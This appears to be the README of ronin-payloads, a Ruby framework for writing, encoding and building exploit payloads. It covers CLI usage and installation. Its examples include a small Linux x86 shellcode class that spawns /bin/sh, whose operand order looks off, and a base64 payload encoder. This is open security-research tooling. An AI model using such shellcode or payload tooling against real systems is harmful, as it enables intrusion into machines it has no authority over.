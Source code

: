 # ronin-payloads

[![CI](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml/badge.svg)](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml)
[![Code Climate](https://codeclimate.com/github/ronin-rb/ronin-payloads.svg)](https://codeclimate.com/github/ronin-rb/ronin-payloads)

* [Website](https://ronin-rb.dev/)
* [Source](https://github.com/ronin-rb/ronin-payloads)
* [Issues](https://github.com/ronin-rb/ronin-payloads/issues)
* [Documentation](https://ronin-rb.dev/docs/ronin-payloads/frames)
* [Slack](https://ronin-rb.slack.com) |
  [Discord](https://discord.gg/6WAb3PsVX9) |
  [Twitter](https://twitter.com/ronin_rb)

## Description

ronin-payloads is a Ruby micro-framework for writing and running exploit
payloads.

## Features

* Allows defining Payloads as plain-Ruby Classes.
* Provides base classes for a variety of common payloads:
  * {Ronin::Payloads::Payload}
  * {Ronin::Payloads::BinaryPayload}
  * {Ronin::Payloads::ASMPayload}
  * {Ronin::Payloads::Nops}
  * {Ronin::Payloads::Shellcode}
  * {Ronin::Payloads::BindShell}
* Provides classes for various payload-encoding techniques.
* Allows adding additional encoders to payloads.

## Synopsis

List available payloads:

```shell
$ ronin-payloads
```

Print information about a payload:

```shell
$ ronin-payloads list -n NAME -v
```

Build and output a payload:

```shell
$ ronin-payload build NAME
```

Build and output a raw un-escaped payload:

 ```shell
$ ronin-payload build NAME --raw
```

Load a payload from a file, then build and output it:

```shell
$ ronin-payload build -f FILE
```

Generate a boilerplate payload file, with some custom information:

```shell
$ ronin-payloads gen example_payload.rb \
                     --name Example --arch i686 --os Linux \
                     --authors Postmodern --description "This is an example."
```

**Note:** The list of available payload templates are:

* `binary_payload`
* `shellcode`
* `nops`

## Examples

Define a `/bin/sh` shellcode payload:

```ruby
require 'ronin/payloads/shellcode'

class BinShShellcode < Ronin::Payloads::Shellcode

  register 'shellcode-linux-x86-bin-sh'
  version '0.5'
  description <<~DESC
    Shellcode that spawns a local /bin/sh shell
  DESC

  targets_arch :x86
  targets_os   'Linux'

  build do
    shellcode do
      xor   eax, eax
      push  eax
      push  0x68732f2f
      push  0x6e69622f
      mov   esp, ebx
      push  eax
      push  ebx
      mov   esp, ecx
      xor   edx, edx
      int   0xb
    end
  end

end
```

Define a payload encoder class:

```ruby
require 'ronin/encoders/encoder'

class Base64Encoder < Ronin::Encoders::Encoder

  register 'text-base64'

  description <<~DESC
    Example base64 payload encoder
  DESC

  targets_arch :x86
  targets_os   'Linux'

  def encode(data)
    data.to_s.base64_encode
  end

end
```

## Requirements

* [Ruby] >= 3.0.0
* [ronin-support] ~> 1.0
* [ronin-asm] ~> 0.1
* [ronin-post_ex] ~> 0.1
* [ronin-core] ~> 0.1
* [ronin-repos] ~> 0.1

## Install

```shell
$ gem install ronin-payloads
```

### Gemfile

```ruby
gem 'ronin-payloads', '~> 0.1'
```

### gemspec

```ruby
gem.add_dependency 'ronin-payloads', '~> 0.1'
```

## Development

1. [Fork It!](https://github.com/ronin-rb/ronin-payloads/fork)
2. Clone It!
3. `cd ronin-payloads/`
4. `bundle install`
5. `git checkout -b my_feature`
6. Code It!
7. `bundle exec rake spec`
8. `git push origin my_feature`

## License

Copyright (c) 2007-2013 Hal Brodigan (postmodern.mod3 at gmail.com)

ronin-payloads is free software: you can redistribute it and/or modify
it under the terms of the GNU Lesser General Public License as published
by the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

ronin-payloads is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License
along with ronin-payloads.  If not, see <https://www.gnu.org/licenses/>.

[Ruby]: https://www.ruby-lang.org
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme
[ronin-asm]: https://github.com/ronin-rb/ronin-asm#readme
[ronin-core]: https://github.com/ronin-rb/ronin-core#readme
[ronin-repos]: https://github.com/ronin-rb/ronin-repos#readme
[ronin-post_ex]: https://github.com/ronin-rb/ronin-post_ex#readme
